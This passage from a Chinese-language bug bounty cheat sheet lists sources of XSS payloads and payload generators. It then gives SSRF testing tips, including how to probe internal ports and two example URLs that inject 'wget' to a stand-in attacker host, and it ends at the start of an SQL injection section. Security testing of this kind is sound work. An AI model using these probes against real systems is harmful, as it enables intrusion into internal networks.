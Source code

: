 这些站点有大量的xss payload

```text
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS injection
https://zseano.com/tutorials/4.html
https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md
http://www.smeegesec.com/2012/06/collection-of-cross-site-scripting-xss.html
http://www.xss-payloads.com/payloads-list.html?a#category=all
```

payload生成：

```text
xssor.io
http：//www.jsfuck.com/ 
https://github.com/aemkei/jsfuck 
https://convert.town/ascii-to-text
http://jdstiles.com/java/cct.html
```

### SSRF

在可以控制url参数的情况下，只要不重定向，就可以测试一下SSRF。 Webhooks, PDF 生成， 文档解析, 文件上传这些地方都可以重点关注一下。

PS:[https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)

想办法探测内网资产：[http://internal-server:22/notarealfile.txt](http://internal-server:22/notarealfile.txt) 更换端口，查看回显，判断端口的开放。 没有回显的情况下，按照响应时间判断，以及DNSLOG，这玩意burp自带的也好用的。 根据我的经验，一些组件只能使用某些端口，例如80,8080,443等。最好对这些端口进行测试。

如果你的payload中有路径，最好带上&,\#

```text
http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000&
http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000#
```

这篇文章对SOP和CORS以及SSRF都有很好的讲解：https//www.bishopfox.com/blog/2015/04/vulnerable-by-design-understanding-server-side-request-forgery/

Bug Bounty Write-ups:

```text
https://hackerone.com/reports/115748
https://hackerone.com/reports/301924
https://www.sxcurity.pro/hackertarget/
http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html
https://seanmelia.files.wordpress.com/2016/07/ssrf-to-pivot-internal-networks.pdf
https://github.com/ngalongc/bug-bounty-reference#server-side-request-forgery-ssrf
https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/
```

### SQL注入

使用SQLMap在PUT REST Params中测试SQLi：
